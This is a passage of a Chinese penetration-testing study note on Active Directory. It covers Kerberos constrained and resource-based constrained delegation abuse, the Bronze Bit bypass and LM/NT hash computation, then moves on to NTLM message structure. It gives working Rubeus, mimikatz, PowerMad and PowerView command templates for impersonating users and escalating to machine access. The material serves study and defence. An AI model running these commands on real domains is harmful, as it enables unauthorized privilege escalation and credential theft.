-   `/ticket:<BASE64 | FILE.KIRBI>`，给出前面获取的 TGT 用于后面 S4u2self、S4u2proxy 请求。要是偷懒不想手动获取，也可以指定凭证让 rubeus 自动先通过凭证获取 TGT。比如 `/rc4:<user hash>` 是用户的 RC4 哈希，AES256 哈希 `/aes256:<aes256 hash>`，甚至可以直接给明文密码 `/password:<password>`，认证方式多种多样，在帮助里 Constrained delegation abuse 小节有详细表述。
-   `/impersonateuser`，模仿哪个账户。
-   `/msdspn`，委派范围内的的服务 SPN 名。msds 就是 msDS-AllowedToDelegateTo 属性的缩写。
-   `/ptt`，使用 Pass-the-Ticket 导入票据到内存。

*alt service*

目前为止约束委派利用有个缺点，只能访问特定服务。可以通过 altservice 修改 S4U2self 返回的 TGS 中 SPN 服务名称，以访问任何服务。`/altservice` 选项可以篡改服务名让模仿账户最终访问它。

由于被设置约束委派的账户可以用 S4U2self 模仿任何用户，那么可以模仿一个对高权限账户再结合 altservice 访问它自己的 CIFS 服务，上传文件拿权限。

```plaintext
Rubeus.exe s4u /user:<SamAccoutnName> /domain:<Domain FQDN> /ticket:<Base64 | tgtFile> /impersonateuser:<impersonate user name> /msdsspn:HTTP/target.domain /altservice:<Service Name> /ptt
```

关于 alt service 还有另一个利用点，是当你通过非约束委派获取了机器账户 TGT 后如何获得对应机器账户所在计算机权限。

使用机器账户发送 S4Uself 请求模拟域账户获取访问指定 /ticket 服务的 TGS。这里的域账户要选择机器账户对应创建人，可以查询 mS-DS-CreatorSID 属性反查到创建人，它会有管理员权限。要是域控 TGT 就模拟域管理员。

```plaintext
Rubeus.exe s4u /self /impersonateuser:<impersonate user name> /ticket:<Base64 TGT | tgtFile> /nowrap
```

可以查看返回的 TGS 中 ServiceName 不是 CIFS，无法访问 C Shell。

```plaintext
Rubeus.exe describe /ticket:<Base64 TGT | tgtFile>
```

这时 TGS 中 SPN 可以使用 `/altservice` 修改为 CIFS 服务，以获取 C Shell 访问权限。

```plaintext
Rubeus.exe tgssub /altservice:cifs/<Domain> /ticket:<Base64 TGS> /ptt
```

需要看 S4U2self abuse 以了解如何通过机器账户 TGT 配合 altservice 获取机器权限：

-   [Abusing Kerberos S4U2self for local privilege escalation](https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/)
-   [https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking](https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking)

*CVE-2020-17049: Kerberos Bronze Bit Attack*

当约束委派和基于资源的约束委派被设置以下配置，S4U2self 获得的 ST 是不可转发的：

-   Service 1 约束委派配置的是 "仅使用 Kerberos"。除了这条其他的都适用于 RBCD。
-   用户在 Protected Users 组内。
-   用户被设置 "Account is sensitive and cannot be delegated"。

一旦 ST 中的 Forwardable 是 0，后续 S4U2proxy 肯定无法得到 Service 2 的 ST。

[Jake Karnes](https://twitter.com/jakekarnes42) 则发现 ST 中的 Forwardable 没放在 PAC 里的，因此不受签名保护，而且 ST 使用服务账户 Service 1 哈希加密，由于我们知道 Service 1 的密码，所以可以篡改。

Rubeus 添加了 /bronzebit 选项来利用。和上面正常利用流程区别不大，先获取 AES1-CTS-HMAC-SHA96-1 加密的哈希

```plaintext
mimikatz sekurlsa::ekeys
```

请求一张 TGT。

```plaintext
Rubeus.exe asktgt /user:<Username> /aes256:<AES Hash> /nowrap
```

使用 /user 用户的 /ticket TGT 发送 S4U2self 请求以 /impersonateuser 用户身份获取当前服务 /user 的 ST。这里通过 /bronzebit 选项使用 /aes256 的密钥将 Forwardable 改为 1，再通过 S4U2proxy 发送给 KDC 以获取 /msdsspn 服务的 ST。

```plaintext
Rubeus.exe s4u /ticket:<Base64 | tgtFile> /impersonateuser:<impersonate user name> /msdsspn:SERVICE/SERVER /bronzebit /aes256:HASH /ptt
```

###### 基于资源的约束委派⚒️

*缺少一张基于资源的约束性委派过程图*

这里还是以 Service 1 和 Service 2 举例。以前约束性委派是在 Service 1 上配置 msDS-AllowedToDelegateTo 属性，其值对应 SPN，这些 SPN 是在委派访问的范围内，这里设置的是 Service 2。而基于资源的约束性委派则相反，则是在要访问的资源 Service 2 上配置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，值是 SID——设置的是 Service 1，只有这些 SID 对应服务能被委派访问 Service 2 自己。

这里安全风险是，Service 1 被拿下权限，并且有权修改 Service 2 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，就可以在 Service 2 上配置 Service 1 的 SID，使用 Service 1 凭证访问 Server 2 服务。

假设目前有这样一个场景，已经拿下一台办公机 Service 1，通过查询发现目标环境使用固定域账户 join 将办公机加入域，我们又知道 join 账户凭证，那么就可以拿下使用 join 账户加入域的所有机器权限。

这是因为用域账户把机器加入域后会自动的创建机器账户，或使用域账户主动创建的机器账户，它的 [mS-DS-CreatorSID](https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-creatorsid) 属性值是创建人 SID——通过 [SidToUser](https://github.com/andif888/SidToUser) 和 PowerView 查询域账户的 objectSid 就能找到创建人（测试了用域管理员 administrator 加入则不存在此属性），而创建人有权编辑 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。

除了创建人自己还有谁有 msDS-AllowedToActOnBehalfOfOtherIdentity 编辑权限？梳理如下：

-   域管理员
    
-   机器账户自己
    
-   创建机器的域账户
    

既然 join 可以控制加入域后自动创建的机器账户 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，那么使用 Service 1 上的域账户创建个机器账户 eval，Service 2 上配置 eval 机器账户 SID，通过 eval 机器账户凭证获取 Service 2 的 CIFS 服务 ST，就能访问机器 C$。

下面展示通用的利用过程。

1.获取 SPN 账户凭证

拿下一个设置了 SPN 的域账户权限，参考约束委派利用小节拿到 TGT，如果没有，可以通过域账户创建机器账户设置 SPN。这里将拿下的 SPN 账户称作 Service 1。

使用 [PowerMad](https://github.com/Kevin-Robertson/Powermad) 创建机器账户。但是创建的机器账户也是有上线数量的，域账户 [ms-DS-MachineAccountQuota](https://learn.microsoft.com/zh-cn/windows/win32/adschema/a-ms-ds-machineaccountquota) 属性默认值是每个域用户用户最多创建 10 个机器账户，达到 10 个后要想创建只有把以前的机器账户删掉，管理员账户则不受限制。这也就是为什么很多加域使用的账户是管理员。

```powershell
New-MachineAccount -MachineAccount <Machine Account Name> -Password $(ConvertTo-SecureString '<Password>' -AsPlainText -Force)
```

使用 PowerView 获取机器账户 SID。

```powershell
Get-NetComputer -Identity <Account Name> | Select objectsid
```

2.配置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性

找到能够对 Service 2 有 msDS-AllowedToActOnBehalfOfOtherIdentity 属性写入权限的用户，这些操作权限如下：

-   GenericAll
-   GenericWrite
-   WriteDacl
-   WriteProperty

拿下这个账户权限，将 msDS-AllowedToActOnBehalfOfOtherIdentity 值设置为 Service 1 的 SID。注意在设置前要记录下原始值，后续利用完成要恢复。

```powershell
# 获取 Service 1 的 SID。
$ComputerSID = Get-DomainComputer <Service 1 Accountname> -Properties objectsid | Select -Expand objectsid

# 创建安全标识符
$RawSd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))";

# 获取二进制数据
$RawSdBytes = New-Object byte[] ($RawSd.BinaryLength);
$RawSd.GetBinaryForm($RawSdBytes, 0);

# 给 Service 2 配置 RBCD。值是 Service 1 的 SID。
Get-DomainComputer -Identity <Service 2 Account Name> | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $RawSdBytes} -Verbose
```

SID 设置完成验证下是否设置正确。

```powershell
Get-NetComputer -Identity <Service 2 Account Name> -Properties msds-allowedtoactonbehalfofotheridentity
```

3.获取 Service 2 的 ST

通过 Service 1 获取 Service2 的 ST，最后导入内存访问服务。

这里分配置了约束委派和没配置约束委派就但有机器账户这两种情况。这里先看使用机器账户如何获取，机器账户没配置约束委派怎么发送 S4U2self 呢？其实一个账户只要有 SPN 就可以发起 S4U2self，域账户可以主动配置 SPN，而机器账户在创建后会存在默认的 SPN，所以能使用 S4U2self。

获取 Service 2 的 ST 方法很多种，当然你可以像约束委派小节写的那样通过 TGT 获取。这里采用机器账户密码哈希来发起认证。

```plaintext
Rubeus.exe hash /user:<Machine Account Name> /password:<Password> /domain:<Domain Name>
```

发起 S4U2self 和 S4U2proxy 获取 Service 2 的 ST。这里的密码哈希看选择的是什么类型，就选择对应选项。

```plaintext
Rubeus.exe s4u /user:<Machine Account Name> /rc4:<Hash> /impersonteuser:<要模拟的用户> /msdspn:<Service 2 SPN> /ptt
```

Service 1 是个机器账户没有配置约束性委派，msDS-AllowedToDelegateTo 属性值为空，S4U2self 获取的 ST 不可转发。那不可转发的 ST 后续 S4U2proxy 在正常的约束性委派中是获取不到 Service 2 的 ST，但基于资源的约束性委派却不受限制能获取。

如果要模拟的账户和约束委派一样是受保护的，也是可以用 Bronze Bit Attack 去绕过 ST 禁止转发限制。

```plaintext
Rubeus.exe s4u /user:<Machine Account Name> /rc4:<Hash> /impersonteuser:<要模拟的用户> /msdspn:<Service 2 SPN> /bronzebit /ptt
```

4.利用完成恢复配置

如果原本就没配置，可清除 msds-allowedtoactonbehalfofotheridentity 属性值，或是设置回原来的值。

```powershell
Get-DomainComputer -Identity <Service 2 Account Name> | Set-DomainObject <Account Name> -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```

***2022 年 [Jame Forshaw](https://twitter.com/tiraniddo) 也提出可以不用机器账户，使用普通域账户也能发送 S4U2self。[https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)***

#### 3.1.2 DACL Abuse

先说明什么是 ACL、DACL、ACE。

后面介绍 DACL 怎么从 Active Directory Delegation Wizard 配置。

[https://techcommunity.microsoft.com/t5/security-compliance-and-identity/active-directory-access-control-list-8211-attacks-and-defense/ba-p/250315](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/active-directory-access-control-list-8211-attacks-and-defense/ba-p/250315)

#### 3.1.3 Zerologon Privilege Escalation (CVE-2020-1472)⚒️

#### 3.1.4 ADCS Privilege Escalation (CVE-2022-26923)⚒️

[https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

[https://tryhackme.com/room/cve202226923](https://tryhackme.com/room/cve202226923)

[https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)  
[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

#### Silver Tickets

银票。

#### Golden Ticket

金票

#### DCSync (Domain Controller Synchronization)

### 3.2 NTLM

#### 3.2.1 Windows 认证概要

讨论 NTLM 前得了解 Windows 有哪些认证方式，目前为了方便归类将其分为本地登录、网络认证两种，什么登陆卡、生物认证不做主要区分。

这些认证方式可能会公用一些认证协议，比如 Kerberos、NTLM 等等，应用通过调用 [Security Support Provider Interface（SSPI）](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture#BKMK_NTLMSSP)) 来使用这些协议，这就不需要应用开发者了解更多协议细节去实现整个协议过程就可以方便使用它。

那到底是谁去实现了这些协议呢？当应用调用 SSPI 最终会访问到 Security Support Provider（SSP），SSP 实现了这些协议，在 Windows 系统这些 SSP 作为 dll 存在对应文件夹：

-   NTLM,%Windir%\\System32\\msv1\_0.dll
-   Kerberos,%Windir%\\System32\\kerberos.dll
-   ......

> 
> 
> [https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture)

##### 本地认证：LM hash 和 NT hash 计算过程

Windows Hash 分 LM（LAN Manager）和 NT（New Technology）两种，不同系统上使用的 Hash 不同，在古早的版本上会使用 LM hash，从 Windows Vista 和 Windows Server 2008 开始能见到的都是 NT hash。

| 系统名称 | LM hash | NT hash |
| --- | --- | --- |
| Windows 2000 | ✅   | ❌   |
| Windows XP | ✅   | ❌   |
| Windows Server 2003 | ✅   | ❌   |
| Windows Vista | ❌   | ✅   |
| Windows 7 | ❌   | ✅   |
| Windows Server 2008 | ❌   | ✅   |
| Windows Server 2012 | ❌   | ✅   |

在本地登录账户的本地认证和后面的 NTLM 网络认证会用到 NT hash，这里以本地登录为例看 NT hash 作用。用户的登录界面由 winlogon.exe 创建 logonui.exe 的展示登录界面，winlogon.exe 从 logonui.exe 收到用户输入的明文密码调用 lsass.exe 认证方法，将密码计算为 NT hash 与 %SystemRoot%\\System32\\Config\\SAM 数据库对比，一致则登录成功，此密码会在 lsass.exe 进程内存中明文存在。

**一、LM hash**

使用明文 raingray 举例，看 [LM hash](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/7b2aeb27-92fc-41f6-8437-deb65d950921#gt_58a72159-b1e9-4770-9b06-d7a6b16279a8) 计算过程。

1.先将明文密码全部转成大写

```plaintext
RAINGRAY
```

如果密码存在数字，就不做处理。数字没法转大写。

2.将大写密码转为十六进制

```plaintext
5241494e47524159
```

如果十六进制不满足 14-byte，就在尾部填充 0。要注意十六进制是 1 个 char 是 4-bit，2 个 char 算 1-byte，这里只有 8-byte 因此需要补充 6-byte 的 0。

```plaintext
5241494e47524159000000000000
```

3.把十六进制密码以 7-byte 为一组共分为两组

要注意十六进制是 1 个 char 是 4-bit，因此需要 2 个 char 才能算 1-byte。分完组如下。

```plaintext
5241494e475241
59
```

会发现分完组后，另一个组还不满 7-byte，需往开头填充 0x00。

```plaintext
59000000000000
```

最终完成分组。

```plaintext
5241494e475241
59000000000000
```

4.将分组十六进制转换成二进制位

将分组的每个字节转成二进制。最后 7-byte 最后应该转换成 56-bit。这里还是要啰嗦一句，十六进制是每两个字符是 1-byte。

这里转换如果不会计算也不用担心，可以使用 Windows 计算器来辅助完成。从图中可以看到选中十六进制（HEX）输入 72，得到二进制（BIN）01110010，右键对着二进制值即可复制。



分组 5241494e475241 转换。

```plaintext
十六进制：    52       41       49       4e       47       52       41
二进制：01010010 01000001 01001001 01001110 01000111 01010010 01000001
```

分组 59000000000000 转换。

```plaintext
十六进制：    59       00       00       00       00       00       00
二进制：01011001 00000000 00000000 00000000 00000000 00000000 00000000
```

4.将二进制数据转换成十六进制

首先将每组二进制按照 7-bit 为一组，总共能分 16 组。

01010010 01000001 01001001 01001110 01000111 01010010 01000001 二进制分组。

```plaintext
0101001
0010000
0101001
0010100
1110010
0011101
0100100
1000001
```

01011001 00000000 00000000 00000000 00000000 00000000 00000000 二进制分组。

```plaintext
0101100
1000000
0000000
0000000
0000000
0000000
0000000
0000000
```

分组完成在末尾为添加一个校验位 0。

```plaintext
01010010
00100000
01010010
00101000
11100100
00111010
01001000
10000010

01011000
10000000
00000000
00000000
00000000
00000000
00000000
00000000
```

添加完成将这二进制转回十六进制。

```plaintext
52205228E43A4882

5880000000000000
```

5.加密

使用 DES 对称加密算法 ECB 模式加密明文 `KGS!@#$%`，Key 是第 4 步最后还原的两组十六进制字符。

```python
from Cryptodome.Cipher import DES
from binascii import a2b_hex, b2a_hex


def encrypt(key, plaintext):
    key = a2b_hex(key)
    des = DES.new(key, DES.MODE_ECB)
    encrypto_msg = des.encrypt(bytes(plaintext, 'utf-8'))

    return b2a_hex(encrypto_msg).upper()


lmHashLeft = encrypt('52205228E43A4882', 'KGS!@#$%').decode('utf-8')
lmHashRight = encrypt('5880000000000000', 'KGS!@#$%').decode('utf-8')
print(lmHashLeft, lmHashRight)
```

使用 Key 加密后得到密文。

```plaintext
76250D0C4130D85E B79AE2610DD89D4C
```

最终将两次加密结果拼接得到 LM-Hash。

```plaintext
76250D0C4130D85EB79AE2610DD89D4C
```

快速验证可以用 Python 的 passlib 库来计算。

```plaintext
┌──(root㉿raingray)-[~]
└─# python3 -c 'from passlib.hash import lmhash;print(lmhash.hash("raingray").upper())'
76250D0C4130D85EB79AE2610DD89D4C
```

或者使用 daiker 提供的脚本下断点直观的调试整个计算过程。

> ```python
> import re
> import binascii
> from pyDes import *
> 
> def DesEncrypt(str, Des_Key):
>     k = des(binascii.a2b_hex(Des_Key), ECB, pad=None)
>     EncryptStr = k.encrypt(str)
>     result = binascii.b2a_hex(EncryptStr)
>     return result
> 
> def group_just(length,text):
>     # text '01010010010000010100100101001110010001110101001001000001'
>     text_area = re.findall(r'.{%d}' % int(length), text) # ['0101001', '0010000', '0101001', '0010100', '1110010', '0011101', '0100100', '1000001']
>     text_area_padding = [i + '0' for i in text_area] # ['01010010', '00100000', '01010010', '00101000', '11100100', '00111010', '01001000', '10000010']
>     hex_str = ''.join(text_area_padding) # '0101001000100000010100100010100011100100001110100100100010000010'
>     hex_int = hex(int(hex_str, 2))[2:].rstrip("L") # '52205228e43a4882'
>     if hex_int == '0':
>         hex_int = '0000000000000000'
>     return hex_int
> 
> def lm_hash(password):
>     # 1. 用户的密码转换为大写，密码转换为 16 进制字符串，不足 14 字节将会用 0 来再后面补全。
>     pass_hex = password.upper().encode().hex().ljust(28,'0') #5241494e47524159000000000000
>     print("1. Hex：" + pass_hex) 
> 
>     # 2. 密码的 16 进制字符串被分成两个 7byte 部分。每部分转换成比特流，并且长度位 56bit，长度不足使用 0 在左边补齐长度
>     left_str = pass_hex[:14] #5241494e475241
>     right_str = pass_hex[14:] #59000000000000
>     print("2. Left Padding:" + left_str)
>     print("2. Right Padding:" + right_str)
> 
>     left_stream = bin(int(left_str, 16)).lstrip('0b').rjust(56, '0') # 01010010010000010100100101001110010001110101001001000001
>     right_stream = bin(int(right_str, 16)).lstrip('0b').rjust(56, '0') # 01011001000000000000000000000000000000000000000000000000
>     print("3. Left Stream：" + left_stream)
>     print("3. Right Stream：" + right_stream)
> 
>     # 3. 再分 7bit 为一组，每组末尾加 0，再转回十六进制再组成一组
>     left_stream = group_just(7,left_stream) # 52205228e43a4882
>     right_stream = group_just(7,right_stream) # 5880000000000000
>     print("4. Left Stream Group：" + left_stream)
>     print("4. Right Stream Group：" + right_stream)
> 
>     # 4. 上步骤得到的二组，分别作为 key 为 "KGS!@#$%"进行 DES 加密。
>     left_lm = DesEncrypt('KGS!@#$%',left_stream) # 52205228e43a4882
>     right_lm = DesEncrypt('KGS!@#$%',right_stream) # 5880000000000000
>     print('5. Left LM-Hash: ' + str(left_lm, encoding='utf-8'))
>     print('5. Right LM-Hash: ' + str(right_lm, encoding='utf-8'))
> 
>     # 5. 将加密后的两组拼接在一起，得到最终 LM hash 值。
>     return left_lm + right_lm
> 
> if __name__ == '__main__':
>     hash = lm_hash("raingray")
>     print("6. LM-Hash Result：" + str(hash, encoding='utf-8'))
> ```
> 
> [https://daiker.gitbook.io/windows-protocol/ntlm-pian/4#1.-lm-hash](https://daiker.gitbook.io/windows-protocol/ntlm-pian/4#1.-lm-hash)

**二、NT hash**

具体存在什么问题导致 LM hash 被弃用呢？[维基百科](https://en.wikipedia.org/wiki/LAN_Manager#Security_weaknesses)上找到一些说法，根本上是容易被彩虹表或者破解出密码。

1.  不区分大小写。ASCII 可输入字符只有 94 个，减去 26 个小写字母，只有 68 个可用。
2.  密码长度 ≤ 7，第二个分组 Key 肯定都是 0。这样计算出来的是固定值 AAD3B435B51404EE。根据此特征一眼就知道密码长度。
3.  密码长度 > 14 会计算失败。DES Key 必须要求为 8-byte。而使用 15 个数字则没问题，大于 15 则计算失败，这是因为第四步转成十六进制时会大于 8-byte，而 DES 要求 Key 是 8-byte，会报错。

因此 LM hash 废弃后，推出新的加密方案 NT hash 作为替代——这在后面 NTLM 认证 也会用到。Windows 上 SAM 数据库存储的就是 [NT hash](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/7b2aeb27-92fc-41f6-8437-deb65d950921#gt_7eb5bce8-bdc5-4d61-a3d9-263ada14ba1f)（但是也有称呼为 NTLM-Hash，都指的是同一个东西，通常叫 NT hash 多些）。[NT hash 计算方式](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/8c5c1438-1807-4d19-9f4e-66290f214a63)也很简单，使用 MD4 做摘要 `MD4(UTF-16-LE(password))`。

1.把明文密码转换成 Unicode 的 UTF-16-LE 编码

```python
string = "password".encode('utf_16_le')
```

2.把 Unicode 密码使用 MD4 进行哈希摘要运算

```python
hashlib.new('md4', string).hexdigest()
```

对明文 password 快速计算为 NT hash。

```plaintext
┌──(root㉿raingray)-[~]
└─# python3 -c 'from passlib.hash import nthash;print(nthash.hash("password").upper())'
8846F7EAEE8FB117AD06BDD830B7586C

┌──(root㉿raingray)-[~]
└─# python3 -c 'from hashlib import new; string="password".encode("utf_16_le"); print(new("md4", string).hexdigest().upper())'
8846F7EAEE8FB117AD06BDD830B7586C
```

NT hash 没加 salt，还是可以用彩虹表撞出明文。

##### 网络认证：NTLM 认证过程

除了本地认证中系统存储密码哈希用 NT hash，网络上的应用也能用 NTLM 协议做网络认证，比如使用共享连接其他机器需要输入账户才能使用（NTLM 协议），或者使用域账户登录机器（Kerberos 协议）。在实际使用中，如今微软也不推荐使用 NTLM 做身份认证，而是首推 Kerberos，只是为了兼容部分场景没有完全禁用。由于只讲 NTLM，这里先忽略 Kerberos。

NTLM 不像 HTTP 或者其它协议有独立的交互过程和状态管控，它需要被其他应用协议通过 API 调用起来使用。比如在使用 HTTP 访问应用时，对方应用要求使用 NTLM 认证，所有 NTLM 的认证信息其实是放在 HTTP 请求里的，有可能是放在请求头或者请求体中。换其它应用也是一样，比如 SMB，NTLM 也是被包含在 SMB 消息某个字段里。

因此这些应用在网络上传递的 Hash 也称作 NTLM hash。NTLM 有俩版本 NTLMv1、NTLMv2，大家也有简称为 Net-NTLMv1、Net-NTLMv2，防止混淆概念，本文如果要区分版本这里以 NTLMv1、NTLMv2 为准，只是提到 NTLM 协议身份验证就称呼 NTLM。根据现在 NTLM 版本来看 NTLMv2 是主流，除非主动[降级](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)使用其他版本。

NTLM 基于 Challenge/Response（质询/响应）的认证模式，就是你问我答，只有回答正确了才算认证成功。下面以交互式认证，这种输入密码的方式举例认证过程：



1.  协商：客户端告诉服务端希望怎么进行认证是采用 NTLMv1 还是 NTLMv2，以及需不需要加签这种内容。
    
2.  质询：服务器根据客户端要求的内容评估能不能满足，把能满足的内容形成清单返回。这一阶段生成 8-byte 随机数（这里是 NTLMv1 版本的长度，NTLMv2 是 16-byte），称为 *Challenge*，并将其发送给客户端。
    
3.  认证：客户端拿用户密码哈希对这个 Challenge 进行加密（这样可以避免明文密码或密码哈希在网络中明文传输），这个加密的内容称为 *Response*（如果非要区分版本就写成 NTLMv1 Response、NTLMv2 Response）。连同 Response、域名、主机名、用户名发送给服务器。
    
4.  服务端处理认证信息
    
    4.1 如果是域认证，服务器使用 [Netlogon](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) 协议向域控制器发送以下 3 项：
    
    -   用户名
    -   向客户端发送的 Challenge
    -   从客户端收到的 Response
    
    域控制器根据用户名从 NTDS.dit 中检索用户密码的哈希，使用这个密码哈希来加密 Challenge。域控制器自己对 Challenge 加密，再与客户端计算的结果进行比较，如果它们相同，认证成功。在图中是第 4、5 步。
    
    4.2 如果是工作组认证，也是一样，只不过不用转发了，直接在本地 SAM（Security Account Manager Database，安全帐户管理器数据库）查找用户的哈希，进行加密比对。
    

> [https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)  
> [https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-apds/5bfd942e-7da5-494d-a640-f269a0e3cc5d](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-apds/5bfd942e-7da5-494d-a640-f269a0e3cc5d)

怎么进行的问答呢？客户端先发用户名告诉服务器要做认证，后面服务器就生成伪随机数给客户端说你把这个加密下，一会儿我验证看对不对，这是服务端在质询。客户端就用户自己密码哈希加密伪随机数发给服务器，这是响应。只要服务器自己加密一遍伪随机数，去跟客户端发过来的结果做个对比，一致就认为认证成功。

了解了大致过程再次通过抓包直观看整个信息，实验通过搭建 SMB 共享，访问共享时 WireShark 抓包，使用 ntlmssp 筛选器过滤出 NTLM 认证。实验环境信息如下：

-   [NTLM 域认证.pcapng](https://www.raingray.com/usr/uploads/2023/11/4049997702.pcapng)：Windows Server 2019 开共享，加入域的 Windows 10 访问。wuhui 账户密码：Wu1hui@123。
-   [NTLM 工作组认证.pcapng](https://www.raingray.com/usr/uploads/2023/11/3401057804.pcapng)，两台 Windows 10，一台开共享，另一台访问。rest 账户密码：123456。

详细来说整个 NTLM 认证分为协商、质询和认证[三个过程](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/907f519d-6217-45b1-b421-dca10fc8af0d)。以 NTLM 域认证.pcapng 开始介绍整个细节。

1.NEGOTIATE\_MESSAGE

客户端向服务端发起认证，第一步先做协商，下图是[协商消息结构](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b34032e5-3aae-4bc6-84c3-c6d80eadf7f2)，会对每个字段一一介绍。



这里以文档叫法为主，对 WireShark 字段一个个作解释：

-   Signature，值占 8-byte 字符数组，存 ASCII 字符，十六进制是 0x4e544c4d53535000。NTLMSSP identifier: NTLMSSP。
    
-   MessageType，值占 4-byte，设置为 0x00000001 代表这是条协商消息。NTLM Message Type: 0x00000001。
    
-   NegotiateFlags，值占 4-byte，每个 bit 状态设置为 0 代表 Not set，1 是 Set。这段内容建议查看 [NEGOTIATE 文档说明](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/99d90ff4-957f-4c8a-80e4-5bfe5a9a9832)，官方文档每个 flag 解释很清晰。
    
    ```plaintext
      Negotiate Flags:
      1... .... .... .... .... .... .... .... = Negotiate 56: Set
      .1.. .... .... .... .... .... .... .... = Negotiate Key Exchange: Set
      ..1. .... .... .... .... .... .... .... = Negotiate 128: Set
      ...0 .... .... .... .... .... .... .... = Negotiate 0x10000000: Not set
      .... 0... .... .... .... .... .... .... = Negotiate 0x08000000: Not set
      .... .0.. .... .... .... .... .... .... = Negotiate 0x04000000: Not set
      .... ..1. .... .... .... .... .... .... = Negotiate Version: Set
      .... ...0 .... .... .... .... .... .... = Negotiate 0x01000000: Not set
      .... .... 0... .... .... .... .... .... = Negotiate Target Info: Not set
      .... .... .0.. .... .... .... .... .... = Request Non-NT Session: Not set
      .... .... ..0. .... .... .... .... .... = Negotiate 0x00200000: Not set
      .... .... ...0 .... .... .... .... .... = Negotiate Identify: Not set
      .... .... .... 1... .... .... .... .... = Negotiate Extended Security: Set
      .... .... .... .0.. .... .... .... .... = Target Type Share: Not set
      .... .... .... ..0. .... .... .... .... = Target Type Server: Not set
      .... .... .... ...0 .... .... .... .... = Target Type Domain: Not set
      .... .... .... .... 1... .... .... .... = Negotiate Always Sign: Set
      .... .... .... .... .0.. .... .... .... = Negotiate 0x00004000: Not set
      .... .... .... .... ..0. .... .... .... = Negotiate OEM Workstation Supplied: Not set
      .... .... .... .... ...0 .... .... .... = Negotiate OEM Domain Supplied: Not set
      .... .... .... .... .... 0... .... .... = Negotiate Anonymous: Not set
      .... .... .... .... .... .0.. .... .... = Negotiate NT Only: Not set
      .... .... .... .... .... ..1. .... .... = Negotiate NTLM key: Set
      .... .... .... .... .... ...0 .... .... = Negotiate 0x00000100: Not set
      .... .... .... .... .... .... 1... .... = Negotiate Lan Manager Key: Set
      .... .... .... .... .... .... .0.. .... = Negotiate Datagram: Not set
      .... .... .... .... .... .... ..0. .... = Negotiate Seal: Not set
      .... .... .... .... .... .... ...1 .... = Negotiate Sign: Set
      .... .... .... .... .... .... .... 0... = Request 0x00000008: Not set
      .... .... .... .... .... .... .... .1.. = Request Target: Set
      .... .... .... .... .... .... .... ..1. = Negotiate OEM: Set
      .... .... .... .... .... .... .... ...1 = Negotiate UNICODE: Set
    ```
    
-   DomainNameFields，值占 8-byte。由于 NegotiateFlags 第 20 位 bit 名叫 NTLMSSP\_NEGOTIATE\_OEM\_DOMAIN\_SUPPLIED——Negotiate OEM Domain Supplied: Not set 未被设置，所以为空。[另一个说法](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b535636e-49c4-43af-8685-801cc381882f#:~:text=the%20initialized%20flags.-,If%20the%20NTLMSSP_NEGOTIATE_VERSION,-flag%20is%20set)是 Version 字段有值才被设置为空。
    
-   WorkstationFields，值占 8-byte。因为 第 19 位 bit NTLMSSP\_NEGOTIATE\_OEM\_WORKSTATION\_SUPPLIED——Negotiate OEM Workstation Supplied: Not set 未被设置，所以为空，另一个为空的原因同 DomainNameFields。
    
-   [Version](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b1a6ceb2-f8ad-462b-b5af-f18527c48175)，值占 8-byte，只有 NegotiateFlags 中 第 8 位 bit 名叫 NTLMSSP\_NEGOTIATE\_VERSION——Wireshark 中名为 Negotiate Version 被设置所以才有版本信息否则是空字节，这个信息用作调试用，正常认证过程被忽略不做处理。通过版本信息来看能得到系统版本，比如这里就是 Windows 10 系统 19041 版本。
    

2.[CHALLENGE\_MESSAGE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/c0250a97-2940-40c7-82fb-20d208c71e96)

-   Signature，值占 8-byte 字符数组，这还是固定值 0x4e544c4d53535000。NTLMSSP identifier: NTLMSSP。
    
